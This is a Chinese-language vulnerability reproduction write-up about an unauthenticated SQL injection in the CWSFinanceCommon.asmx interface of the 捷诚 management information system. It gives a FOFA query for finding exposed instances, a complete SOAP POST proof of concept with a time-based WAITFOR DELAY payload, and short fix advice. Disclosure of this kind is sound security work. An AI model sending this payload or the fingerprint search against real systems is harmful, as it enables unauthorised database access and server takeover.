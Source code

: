 
# 捷诚管理信息系统 SQL注入漏洞复现

### 0x01 产品简介

   捷诚管理信息系统是一款功能全面，可以支持自营、联营到外柜租赁的管理，其自身带工作流管理工具，能够帮助企业[有效的](https://so.csdn.net/so/search?q=%E6%9C%89%E6%95%88%E7%9A%84&spm=1001.2101.3001.7020)开展内部审批工作。

### 0x02 漏洞概述

  捷诚管理信息系统CWSFinanceCommon.asmx接口存在[SQL注入漏洞](https://so.csdn.net/so/search?q=SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)。未经身份认证的攻击者可以通过该漏洞获取数据库敏感信息，深入利用可获取服务器权限。

### 0x03 复现环境

FOFA：body="/Scripts/EnjoyMsg.js"

![](assets/1700701137-18db7c23ade59d093a65ba84eae25764.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOSpById xmlns="http://tempuri.org/">
      <sId>1';WAITFOR DELAY '0:0:5'--+</sId>
    </GetOSpById>
  </soap:Body>
</soap:Envelope>
```

 延时5秒![](assets/1700701137-2c62cb54c004380094cade0c2cefb219.png)

sqlmap验证

![](assets/1700701137-9c244e4a842faf177d3ba317fa479566.png)

### 0x05 修复建议

关闭该功能页面或接口处设置外部访问权限

升级至安全版本
